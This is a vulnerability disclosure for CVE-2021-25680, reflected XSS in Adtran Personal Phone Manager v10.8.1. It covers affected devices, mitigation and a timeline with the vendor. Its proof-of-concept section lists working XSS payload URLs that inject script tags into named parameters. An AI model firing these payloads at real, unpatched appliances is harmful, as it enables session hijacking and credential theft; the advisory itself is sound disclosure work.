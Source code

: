# CVE-2021-25680 - Adtran Personal Phone Manager Multiple Reflected XSS

--Summary--

The AdTran Personal Phone Manager software is vulnerable to multiple reflected cross-site scripting (XSS) issues. These issues impact at minimum versions 10.8.1 and below but potentially impact later versions as well since they have not previously been disclosed. Only version 10.8.1 was able to be confirmed during primary research

ADTRAN, Inc
https://adtran.com

--Affects--

- AdTran Personal Phone Manager
- Verified on v10.8.1
- **Note**: The affected appliances NetVanta 7060 and NetVanta 7100 are considered End of Life and as such this issue will not be patched. It is recommended impacted users update to an actively supported appliance.

--Details--

The AdTran Personal Phone Manager software is vulnerable to multiple reflected cross-site scripting (XSS) issues. These issues impact at minimum versions 10.8.1 and below but potentially impact later versions as well since they have not previously been disclosed. Only version 10.8.1 was able to be confirmed during primary research. These issues work by passing in a basic XSS payload to vulnerable GET parameters that are reflected in the output without saniztization. This can allow for several issues including but not limited to:

- Hijacking a user's session
- Modifying a user's configuration settings
- Using XSS payloads to capture input (keylogging)


-- Proof of Concept --
The following URL parameters were impacted and can be exploited with the sample payloads provided below:
- https://example.com/userapp/userSettings.html?emailSuccessMessage=%3Cscript%3Ealert(document.cookie)%3C/script%3E
- https://example.com/userapp/phoneSettings.html?successMessage=%3Cscript%3Ealert(document.cookie)%3C/script%3E
- https://example.com/userapp/phoneSettingsAction.html?formAction=&callForwardingFlag=1&callForwardNumber=SOMEDATA"><script>alert`XSS`</script>&apply=Apply Changes
- https://example.com/userapp/directoriesAction.html?formAction=applySpeedDialChanges&callEntryToDelete=&newSpeedDialName(1)=&newSpeedDialNumber(1)=&newSpeedDialName(2)=&newSpeedDialNumber(2)=&newSpeedDialName(3)=&newSpeedDialNumber(3)=&newSpeedDialName(4)=&newSpeedDialNumber(4)=&newSpeedDialName(5)=&newSpeedDialNumber(5)=&newSpeedDialName(6)=&newSpeedDialNumber(6)=&newSpeedDialName(7)=&newSpeedDialNumber(7)=&newSpeedDialName(8)=&newSpeedDialNumber(8)=&newSpeedDialName(9)=&newSpeedDialNumber(9)=&newSpeedDialName(10)=&newSpeedDialNumber(10)=&newSpeedDialName(11)=&newSpeedDialNumber(11)=&newSpeedDialName(12)=&newSpeedDialNumber(12)=SOMEDATA<script>alert`XSS`</script>&newSpeedDialName(13)=&newSpeedDialNumber(13)=&newSpeedDialName(14)=&newSpeedDialNumber(14)=&newSpeedDialName(15)=&newSpeedDialNumber(15)=&newSpeedDialName(16)=&newSpeedDialNumber(16)=&newSpeedDialName(17)=&newSpeedDialNumber(17)=&newSpeedDialName(18)=&newSpeedDialNumber(18)=&newSpeedDialName(19)=&newSpeedDialNumber(19)=&newSpeedDialName(20)=&newSpeedDialNumber(20)=&applySpeedDialChanges=Apply

The vulnerable parameters that were identified impact more pages than just the above. Any page that renders a response using the following parameters is impacted by this issue:
- emailSuccessMessage
- successMessage
- callForwardNumber
- newSpeedDialNumber(#)


--Mitigation--

Sanitize any user controlled input in both form fields and URL paramaters to properly encode data so it is not rendered as arbitrary HTML/JavaScript.

--Timeline--

- 1/21/2021: XSS Vulnerabilities were discovered and documented. A temporary CVE identifier was requested by MITRE. AdTran was also notified with the full details of each finding via their product security contact at https://adtran.com/web/page/portal/Adtran/wp_product_security. A baseline 90 day disclosure timeline was established in the initial communication.
- 1/22/2021: Placeholder CVE-2021-25680 was assigned by MITRE.
- 1/29/2021: A response from AdTran's Product Security Team was received.
- 2/8/2021: The researcher responded to the email acknowledging receipt. The encrypted email contents appeared to be corrupted so a request was made to resend the data.
- 2/9/2021: AdTran's Product Security Team replied with a re-encrypted copy of the previous communication made on 1/29/2021. The reasearcher was able to successfully decrypt the contents of this communication. The communication informed the researcher that the disclosed issues targeting NetVanta 7060 and NetVanta 7100 would not be addressed. The justification for this decision is that software support ended in June of 2018, and product EOL occurred in December of 2020. As such AdTran would not be invesitgating the issues leaving the details of the findings as is. The reseacher responded with acknowledgement to the decision and requested support to proceed with full disclosure outside of the previously established 90 day timeline.
- 2/11/2021: AdTran's product security team responded to the request for full disclosure. They informed the researcher that they would like to discuss the decision internally first. The researcher acknowledged the request and affirmed they would not procceed with disclosure until further notice.
- 3/1/2021: AdTran's product security team reached out to inform the researcher that they would support the full disclosure of the vulnerability at the researcher's discretion. They provided a few details on model names to include as EOL for the disclosure details.
- 3/2/2021: The researcher acknowledges the approval and informs the product security team that a link will be provided to any future publications once the vulnerability is publicly disclosed.
- 3/3/2021: The researcher begins constructing a private repository to prepare the write ups for release.

Casey Erdmann - Offensive Security Consultant